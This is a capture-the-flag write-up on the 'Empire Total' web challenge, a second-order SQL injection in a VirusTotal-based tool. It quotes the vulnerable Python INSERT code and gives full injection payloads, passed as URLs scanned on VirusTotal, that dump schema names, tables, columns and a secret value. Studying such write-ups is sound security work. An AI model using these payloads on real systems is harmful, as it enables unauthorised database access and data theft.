 # **Empire Total (1000pts) (7 Solves)**

![TASK](https://imgur.com/rGcoI7o.png)

This task was really so creative and i had so fun solving it , but i can't deny that it was painful :( after reading the description we can say that we aim to dump the database of the website (maybe SQL injection who knows) and fortunately we have the source code so let's download it and begin our trip xD

After Visiting the website we find a tool based on Virus Total API , understanding the functionality of the website is really necessary for solving the task, we will cover it in details later, but as a first thought we give an ip address to the website and it will shows Virus Total stats about it

![TASK](https://imgur.com/k7ScCjX.png)

![TASK](https://imgur.com/bjRXPJT.png)

After cloning the project here is its structure
> git clone https://github.com/mohamedaymenkarmous/virustotal-api-html

![TASK](https://imgur.com/alxzV41.png)

let's take a look at index.php , since the code is really too long i will only put the important parts, as we can see after some configurations and Recaptcha setting, all the SQL queries are prepared statements so there is no way to perform SQL injection but we can notice the execution of the 
**shell_exec** function :D Interesting hmmm 

![TASK](https://imgur.com/A1kiMAa.png)

**shell_exec** is executing some python script with a scanned ip argument ,maybe manipulating it will give us something useful 

```php
$command = "../VirusTotal.py '$scanned_ip'";
$output = shell_exec($command);
```
But unfortunately there's too much restriction on our input :( it's impossible to bypass the filter_var here and the JS restrictions (if you can bpass it just tell me xD )

```php
 if(isset($_POST) && !empty($_POST)){
  $scanned_ip=isset($_POST['ip']) && !empty($_POST['ip'])  && !is_array($_POST['ip']) ? $_POST['ip'] : "";
  if(!$scanned_ip){header("Location: /?invalid_ip");exit();}
  if (filter_var($scanned_ip, FILTER_VALIDATE_IP)) {
  } else {header("Location: /?invalid_ip");exit();}
```
Let's proceed , it seems that the index.php is pretty safe ,let's take a look at the VirusTotal.py script 

![TASK](https://imgur.com/ytcYYQQ.png)

OMG :'( 499 lines , that was so discouraging @Emperors :( but we needed that flag to have the 10th place xD anyway after scrolling around and reading the code , we can somehow understand the behaviour of the website,
when we enter the ip address it asks the Virus Total API for the results and then there's the persistence functionality that saves the results in the database and then when we enter the same ip address again it will loads
the results from the database .

So if we can control the results maybe we will have the opportunity to perform an SQL injection ? I got stuck in this part for a long time and after the help of the admin ( Thank you @Emperors <3 ) i found something interesting :D

before we proceed here's a vulnerable function to SQL injection that saves the results of urls section in the database (line 417 in VirusTotal.py)

```python
  def persistURLs(self,selected_ips,ip_report_filtered):
    attr="detected_urls"
    table_name="vt_scanned_urls_table"
    newAttr=self.AttrSubstitution[attr] if attr in self.AttrSubstitution else attr
    selected_urls=self.findPersistedIP(selected_ips[0]['id'],table_name)
    selected_urls_filtered=[]
    for selected_url in selected_urls:
      selected_urls_filtered.append(selected_url['url'])
    if newAttr in ip_report_filtered:
     for url in ip_report_filtered[newAttr]:
      print(url['URL'])
      if url['URL'] not in selected_urls_filtered:
        try:
          self.CursorRW.execute("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          self.DBRW.commit()
          self.resetSQL()
        except Exception as e:
          print("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          print("EXCEPTION: ",e)
          self.resetSQL()
```
## Exploitation ##

So the idea is that if we go to VirusTotal website (https://www.virustotal.com/) and scan a url ,and then go back to our challenge website and scan the url's ip
we will find that the url we scanned in VirusTotal website will appear , it's pretty confusing i know so let's have an example

1. We go to Virus Total website and scan for any url for example :( in my case i launched a web server on my VPS and used it here )

> http://100.26.206.184/?u=Just testing for the writeup :p

![TASK](https://imgur.com/mGOQ1tQ.png)

2. Now we go back to the challenge website and scan the ip address

![TASK](https://i.imgur.com/N7ymSRT.jpg)

Yeeees ! it's appearing in the results so we now have the control over these values in the urls section of the results.

Now here is our scenario , if we look to the vulnerable function **persistURLs** in VirusTotal.py we can notice the injection in this query (line 430)

> INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')

We have control over the **url['URL']** parameter (the url we scan in VirusTotal Website) so it's now an SQL injection in INSERT INTO values, but we have some constraints :

1. The url encoding **%20** that will be interpreted with the SQL query so we have to find another way in our payload instead of white spaces which is a well known bypass:  **/\*\*/**
2. The second thing faced me when i was solving the challenge , we can't use **-- -** to equilibrate the SQL query so we will have to find a solution to equilibrate it

In order to test the injection locally i have created this small script that connects to my local DB and executes the same query, you can find it **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/Securinets%20Prequals%202k20/Empire%20Total/test.py)** 

Finally I opted to this solution, here is the URL we will scan :
> http://100.26.206.184/?u=',(select/**/1),(select/**/2)),('102','a

The complete SQL query that will be executed is  :
> INSERT INTO detected_urls (ip_id,url,detections,scanned_time) VALUES ('2','100.26.206.184/?u=',(select 1),(select 2)),('102','a','15','yes')

Let's try it now , we first scan it in VirusTotal :

![TASK](https://imgur.com/3L7lmrs.png)

And now let's scan the IP in the challenge website  :

![TASK](https://imgur.com/f2CRd7H.png)

It's fetched successfully, let's scan the ip another time now to check if our injection succeeded or not, we must see 1,2 in the output :

![TASK](https://i.imgur.com/U3SEcaV.jpg)

Bingo ! our injection worked , we only have to dump the entire Database now and repeat the same procedure:

1. Dump DB names :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,schema_name,0x7c)/**/fRoM/**/information_schema.schemata),(select/**/2)),('102','a

![TASK](https://imgur.com/AJvdMXB.png)

DBName : MySecretDatabase 

2. Dump Tables and Columns :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,table_name,0x7c)/**/fRoM/**/information_schema.tables),(select/**/2)),('102','a

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,column_name,0x7c)/**/fRoM/**/information_schema.columns),(select/**/2)),('103','a

![TASK](https://imgur.com/raYuUmI.png)

**Table Name** : SecretTable & **Column Name** : secret_value

3. And finally let's have our beloved flag :

> http://100.26.206.184/?u=',(select/**/group_concat(0x7c,secret_value,0x7c)/**/fRoM/**/MySecretDatabase.SecretTable),(select/**/2)),('109','a

![TASK](https://imgur.com/FanWbUZ.png)

Yees We did it , **FLAG** : Securinets{EmpireTotal_Pwn3D_fr0m_Th3_0th3r_S1de}

I have really liked the idea of the challenge, it's really creative , i want to thanks Securinets technical team for these fun tasks and awesome CTF and of course the author @TheEmperors.

I hope you liked the writeup if you have any questions don't hesitate to contact me **Twitter** : @BelkahlaAhmed1 , finally i can sleep in peace after these 24 hours xd
